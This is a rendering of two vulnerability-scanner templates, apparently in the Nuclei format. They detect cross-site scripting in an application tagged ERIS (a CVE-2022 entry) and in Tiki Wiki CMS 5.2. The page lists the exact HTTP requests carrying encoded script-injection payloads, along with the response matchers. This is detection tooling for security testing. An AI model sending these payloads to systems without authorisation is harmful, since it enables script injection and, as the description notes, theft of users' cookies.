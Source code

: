 - severity - high
- tags - cve,cve2022,xss,eris
## Requests
### Step - 1
```
POST /index.php?q=result&searchfor=advancesearch HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

SEARCH=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&COMPANY=&CATEGORY=&submit=Submit

```
### Matchers

**Type - word**
- part - body
- words
    1. Result : \<script>alert(document.domain)\</script>
    2. ERIS
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Tiki Wiki CMS Groupware 5.2 - Cross-Site Scripting
## Description
- Tiki Wiki CMS Groupware 5.2 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - packetstorm,edb,xss,tikiwiki
## Requests
- Method - GET
### URL
- {{BaseURL}}/tiki-5.2/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E
- {{BaseURL}}/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E
### Matchers

**Type - status**
- status
    1. 200
